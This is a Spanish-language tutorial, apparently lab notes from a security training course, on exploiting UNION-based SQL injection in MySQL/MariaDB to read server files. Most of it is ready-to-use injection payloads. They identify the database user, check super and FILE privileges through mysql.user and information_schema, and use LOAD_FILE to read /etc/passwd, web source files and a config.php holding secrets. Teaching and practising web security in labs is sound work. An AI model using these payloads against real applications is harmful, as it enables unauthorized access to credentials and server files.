

# Reading Files

Para obtener informaacion de varias tablas dentro del DBMS, una inyección SQL también se puede aprovechar para realizar muchas otras operaciones, como leer y escribir archivos en el servidor e incluso obtener ejecución remota de código en el servidor back-end.

## Privileges 

Leer informacion es mas comun que escribir, la cual esta estrictamente reservada por usuarios en DBMSes modernas, ya que puede llevar a la explotacion del sistema.

## DB User

Primero, tenemos que determinar que usuario somos dentro de la base de datos.

```
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

```
cn' UNION SELECT 1, user(), 3, 4-- -
```

```
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

## User Privileges

Ahora que sabemos nuestro usuario, podemos iniciar buscando que privilegios tenemos con este usuario. Primero tenemos que testear que tenemos super admin privileges con la siguiente consulta.

```
SELECT super_priv FROM mysql.user
```

```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

Si tenemos muchos usuarios dentro de DBMS, podemos agregar **WHERE user="root"**, para solo mostrar privilegios con el usuario root

```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```


Si la consulta nos regresa **Y**, significa YES, indicando los privilegios de super usuario. Podemos agregar otros privilegios directamente con el siguiente query.

```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

Podemos agregar **WHERE grantee=" 'root'@'localhost'" para solo mostrar a nuestro actual usuario privilegios de super usuario (root)

```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

finalmente veremos todos los prosibles privilegios que se dieron a nuestro usuario actual.


Bien ahora vemos que **FILE** esta permitido para nuestro usuario, por lo que tenemos habilitado leer y escribir archivos.

## LOAD_FILE

Ahora que tenemos permitido leer archivos podemos usar la funcion **LOAD_FILE()**, esta funcion puede ser usada en MariaDB/MySQL para leer archivos.

```
SELECT LOAD_FILE('/etc/passwd');
```

```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```


```
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```


Ctrl + U


## Reto



cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -